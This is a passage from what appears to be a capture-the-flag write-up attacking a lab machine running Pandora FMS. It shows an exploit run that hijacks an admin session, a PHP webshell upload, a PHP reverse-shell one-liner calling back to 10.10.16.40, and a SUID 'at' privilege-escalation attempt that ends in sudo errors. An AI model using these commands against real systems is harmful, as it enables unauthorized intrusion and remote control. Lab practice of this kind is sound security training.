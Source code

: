 ```console
❯ python exploit.py -t 127.0.0.1:8080 -f shell.php
URL: http://127.0.0.1:8080/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : 7pcmj1a43s35m1u6903br8213a
[+] Sending Payload 
[+] Respose : 200
[+] Pwned :)
```

> We are IN!

### Admin access

Well, now, we need to get a bash shell... After searching for a long time to get one I aam not able to do, so let's get into admin session on the website. 

Ok, it works!

![admin](admin.png) 
_admin session_

### Reverse shell

Now that we are admin, we can upload files. We just search for a working webshell like [this](https://raw.githubusercontent.com/JohnTroony/php-webshells/master/Collection/Simple-Webshell.php), download and upload to the system.

![webshell](webshell.png) 
_webshell uploaded_

> This is going well...

Finally, I get a bash shell with `nc -lnvp <port>` listening in my case 9042 port, and executing on the web shell this:

```php
php -r '$sock=fsockopen("10.10.16.40",9042);exec("/bin/bash -i <&3 >&3 2>&3");'
```

Is time to look into binaries with suid set. We just do 
`find / -perm -u=s -type f 2>/dev/null` and we see **/usr/bin/at** on the list. So let's go to [gtfobins](https://gtfobins.github.io/#) and look for _at_.

We see with `echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null` we can get a unrestricted shell. Let's try...

```console
❯ nc -lnvp 9042
listening on [any] 9042 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.136] 58356
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ echo "/bin/bash <$(tty) >$(tty) 2>$(tty)" | sudo /usr/bin/at now; tail -f /dev/null
<2>$(tty)" | sudo /usr/bin/at now; tail -f /dev/null  
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
bash: [12152: 1 (255)] tcsetattr: Inappropriate ioctl for device*-
```
